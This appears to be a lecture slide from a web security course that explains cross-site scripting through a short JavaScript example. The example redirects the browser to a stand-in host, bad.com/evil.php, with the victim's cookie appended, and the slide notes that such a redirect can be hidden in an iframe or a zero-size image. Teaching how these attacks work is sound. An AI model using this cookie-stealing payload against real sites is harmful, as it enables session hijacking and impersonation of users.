

# Better examples
In Javascript, you can redirect to arbitrary pages, so can include such a redirect.
Worse, can interact with cookies:
	<script>
   document.location = “http://bad.com/evil.php?cookie=“+document.cookie;
   </script>
This redirects and then concatenates the user’s cookie.
Could then use the cookie to impersonate the victim.
Can hide such a redirect using iFrame or embedding an image of size 0, as we saw last lecture.